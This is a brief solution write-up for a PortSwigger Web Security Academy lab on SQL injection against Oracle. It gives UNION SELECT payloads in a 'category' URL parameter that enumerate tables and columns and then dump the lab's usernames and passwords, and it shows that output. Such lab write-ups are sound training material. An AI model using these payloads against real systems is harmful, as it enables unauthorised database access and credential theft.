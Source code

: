 # Lab

https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

## Payload

```sql
/filter?category=Gifts'+UNION+SELECT+NULL,NULL+FROM dual--
```

```sql
/filter?category=Gifts'+UNION+SELECT+table_name,NULL+FROM all_tables--
```

```
...
USERS_GAHUHQ
...
```

```sql
/filter?category=Gifts'+UNION+SELECT+column_name,NULL+FROM all_tab_columns WHERE table_name='USERS_GAHUHQ'--
```

```
USERNAME_EAUFHV
PASSWORD_RIVZIW
```

```sql
/filter?category=Gifts'+UNION+SELECT+USERNAME_EAUFHV,PASSWORD_RIVZIW+FROM+USERS_GAHUHQ--
```

```
administrator, 57zx5b83v47leo8wy6jc
carlos, 4u51a8s4mj5f1d3qmgn5
wiener, m7htogy5psp8to2dzksm
```
